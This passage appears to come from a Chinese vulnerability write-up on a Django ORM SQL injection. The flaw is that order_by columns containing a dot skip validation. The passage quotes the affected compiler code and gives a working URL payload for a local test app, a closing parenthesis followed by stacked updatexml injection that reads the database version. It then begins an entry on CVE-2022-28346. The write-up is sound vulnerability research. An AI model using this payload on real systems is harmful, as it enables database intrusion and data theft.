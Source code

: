 在第一次判断中, `if '.' in item`进行判断能够确保`order by`查询能够更好地兼容何种形式的带列的查询, 但是判断是否为带表的查询之后, 如果判定为带表查询则进行`continue`, 而`continue`则直接跳过了`self.names_to_path`的对列的有效性检查. 跟进处理带字符串`.`的代码, 位于文件`django/db/models/sql/compiler.py`的`get_order_by`函数, 核心代码如下:

```python
if '.' in field:
    table, col = col.split('.', 1)
    order_by.append((
            OrderBy(
                RawSQL('%s.%s' % (self.quote_name_unless_alias(table), col), []),
                descending=descending
            ), False))
    continue
```

上述代码中, 函数`self.quote_name_unless_alias`处理表名, 同样使用字典来强制过滤有效的表名, 而后面的列面则恰好未经过过滤, 则可以构造闭合语句进行`SQL`注入.

参数`app_user.name) --`最终传入数据库的语句为:

```sql
SELECT `app_user`.`id`, `app_user`.`name` FROM `app_user` ORDER BY (`app_user`.name) --) ASC LIMIT 21
```

使用右括号`)`进行闭合之后进行堆叠注入, 基本的`payload`如下: `http://127.0.0.1:8000/vuln/?order_by=vuln_app_user.name);select%20updatexml(1,%20concat(0x7e,(select%20@@version)),1)%23`

<div align=center><img src="./images/14.png"></div>


# CVE-2022-28346
## 漏洞简介
An issue was discovered in Django 2.2 before 2.2.28, 3.2 before 3.2.13, and 4.0 before 4.0.4. QuerySet.annotate(), aggregate(), and extra() methods are subject to SQL injection in column aliases via a crafted dictionary (with dictionary expansion) as the passed **kwargs.

